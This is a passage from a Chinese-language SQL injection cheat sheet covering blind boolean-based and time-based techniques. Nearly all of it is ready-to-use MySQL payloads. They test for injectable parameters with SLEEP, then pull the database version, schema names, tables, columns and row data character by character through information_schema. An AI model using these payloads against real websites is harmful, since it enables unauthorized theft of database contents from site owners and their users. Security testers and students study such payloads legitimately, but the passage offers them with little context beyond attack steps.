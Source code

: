 #### 提取表A中所有列

```sql
1 AND (ascii(substr((
    SELECT column_name FROM information_schema.COLUMNS 
    	WHERE TABLE_NAME="A" 
    	LIMIT 0,1
	),1,1))) > 95--
```

#### 提取表A中的所有数据

```sql
1 AND (ascii(substr((SELECT column1 FROM table1 LIMIT 0,1),1,1))) > 95--
```

### Time-based

> 如果无法页面的返回结果无法表明查询是否成功，则需要用通过`IF`和`SLEEP`等语句来使查询的执行时间延长，并以此判断查询是否成功

#### 验证是否存在注入

```sql
1 AND sleep(10) # 若存在注入，则会延时10s
```

#### 提取DBMS版本

```sql
1 AND IF((SELECT ascii(substr(version(),1,1))) > 53,sleep(10),NULL) 
# if version[0] >53, then sleep(10)

# or
1 AND IF((SELECT version()) LIKE "5%",sleep(10),NULL) #
```

#### 提取数据库

```sql
1 AND IF(((ascii(substr((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

#### 提取表

```sql
1 AND IF(((ascii(substr((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),1,1))))> 95,sleep(10),NULL)--
```

#### 提取列

```sql
1 AND IF(((ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

#### 提取数据

```sql
1 AND IF(((ascii(substr((SELECT column1 FROM table1 LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```





